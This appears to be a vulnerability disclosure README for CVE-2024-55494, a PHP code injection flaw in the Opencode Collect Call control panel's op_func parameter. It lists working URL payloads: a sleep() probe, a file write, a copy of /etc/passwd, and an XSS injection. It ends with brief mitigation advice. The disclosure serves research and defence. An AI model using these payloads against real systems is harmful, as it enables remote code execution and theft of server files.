




# PHP Code Injection Vulnerability (CVE-2024-55494)

## Overview

This vulnerability was discovered in the Opencode Collect Call application (https://opencode.com/), version 5.4.7. This repository documents the analysis and exploitation of a PHP code injection vulnerability (CVE-2024-55494). 
The vulnerability resides in the `op_func` parameter of the `/index.php` endpoint, allowing attackers to execute arbitrary PHP code.

## Identify the vulnerability  

```url
occontrolpanel/index.php?op_func=getFiles%7b$%7bsleep(10)%7d%7d
```

 
This payload executes the PHP `sleep()` function, introducing a delay and confirming code execution.

---

## Exploitation Examples


### 1: Writing Files

Payload:

```url
occontrolpanel/index.php?op_func=getFiles%7b$%7bfile_put_contents('test.txt', 'PHP Injection Successful')%7d%7d
```


Created `test.txt` with the content "PHP Injection Successful."

### 2: Reading Sensitive Files

Payload:

```url
occontrolpanel/index.php?op_func=getFiles%7b$%7bfile_put_contents('passwd_dump.txt', file_get_contents('/etc/passwd'))%7d%7d
```


Extracted `/etc/passwd` into `passwd_dump.txt`.

### 3: Cross Site Scripting

Payload:

```url
occontrolpanel/occontrolpanel/index.php?w=occampaigns&op=SubUsers&op_func=getSubUsersByProvider//?><script>alert('Hacked By Asiacell VAPT team!')</script>&account_id=
```


 Execute XXS Payload .


---

## Mitigation Recommendations

1. **Input Validation**: Sanitize all user input using `filter_input()` or equivalent methods.
2. **Disable Dangerous Functions**: Restrict use of `eval()`, `create_function()`, and `{${...}}` syntax.
3. **Secure File Permissions**: Restrict write access to critical directories.

## Disclaimer

This repository is intended for educational and research purposes only. Unauthorized use of this information may violate laws or agreements. Use responsibly.

